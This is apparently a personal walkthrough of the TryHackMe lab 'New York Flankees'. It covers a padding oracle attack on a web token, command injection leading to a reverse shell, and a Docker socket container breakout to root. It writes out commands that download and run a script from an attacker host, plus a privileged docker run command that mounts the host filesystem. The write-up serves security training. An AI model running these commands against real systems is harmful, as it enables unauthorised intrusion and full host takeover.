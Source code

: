 ##TryHackMe - New York Flankees Walkthrough

`https://tryhackme.com/room/thenewyorkflankees`

#Introduction :

This is a walkthrough for the TryHackMe room *New York Flankees*, which focuses on exploiting a web app via padding oracle, gaining reverse shell access to a Docker container, and escalating to root on the host using Docker misconfigurations.

#🔍Reconnaissance  

Start with an Nmap scan:  
nmap -sC -sV -p- -T4 <ip> -Pn  

![alt text](Screenshot/Screenshot_2025-06-24_07_07_56.png)  

Nmap ResultGot 2 Ports Open 22 & 8080. Let's visit the site to find any entry point into the system.

On the website, in the *Stefan Test* Menu it shows an error related to padding.

![padding](Screenshot/Screenshot_2025-06-24_06_54_48.png)  

Visit the source code where you will find javascript code related to authentication using token.  

![srccode](Screenshot/Screenshot_2025-06-24_07_00_16.png)

If you manually try to go to /api/debug/ with the Encrypted String "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" , it will print "Custom authentication Success" and if you give wrong token it print "Decryption Error".

So the Backend is Decrypting the String and authenticating the user. May be the Encrypted String Contain Username and Password of the user. And also now we know there is padding error. So lets try to decrypt the string using padding oracle attack.

For this we will use a Github Tool *Padre*  
`https://github.com/glebarez/padre`

![padre](Screenshot/Screenshot_2025-06-24_07_10_53.png)  

This Tool will Crack the Encryption String for you and will provide username and password. -> Flag 1


#Flag 2

Try to login to the Site, Now will see a new Menu *Debug*, were you will get your -> Flag 2


#Flag 3

Now there is option to execute System commands directly. I tried to upload a python shell there using Burp Suite.  

![shell](Screenshot/Screenshot_2025-06-24_07_22_11.png)  

Simple Python PayloadI used a Extensions "Agartha" in Burp Suite which generate many payload for command execution if want to bypass the filters.

![agartha](Screenshot/Screenshot_2025-06-24_07_22_29.png)  

Because i have community version of Burp Suite, I used Turbo Intruder(extension in burp suite) to brute force all the payload generated by Agartha. 
I generated payload for following 3 command in Agartha :

```curl http://<ip>/python-exploit.py -o /tmp/python-expliot.py```  
```chmod +x /tmp/python-expliot.py```  
```python3 /tmp/python-expliot.py```  

After Executing the Payload I Got a Reverse shell, where you can see a .dockerenv file is present which suggest that it is a container.  
![revshell](Screenshot/Screenshot_2025-06-24_07_33_24.png)  

Let's go for third flag which is in the container, For that can go in the app Directory and search there you will find the -> Flag 3


#Final Flag

So, Now Final Flag. Because it is a docker container lets use a docker enumeration tool called deepce.

`https://github.com/stealthcopter/deepce`

Downloads this tool in the lab and execute the tool.  
It's output's will say that docker sock is writable -> Search for it on Hacktricks.

`https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/docker-breakout`  

Read it carefully. Now, Search for docker images in lab  
```docker images```

Use one of the image id of one of the docker images for the next command to be run:

```docker run - privileged -it -v /:/mnt/ d5954e1d9fa4 chroot /mnt/ bash```

You Got a root access to the Container. Got -> Flag 4


#✅ Conclusion

This room gave solid experience with container breakout techniques and web vulnerabilities.  
Thanks for reading! Let me know if you have questions!

TryHackMe Profile : https://tryhackme.com/p/Sumit003  
LinkedIn : https://www.linkedin.com/in/sumitmaurya03/

tryhackme, cybersecurity, docker, infosec, ethical-hacking, walkthrough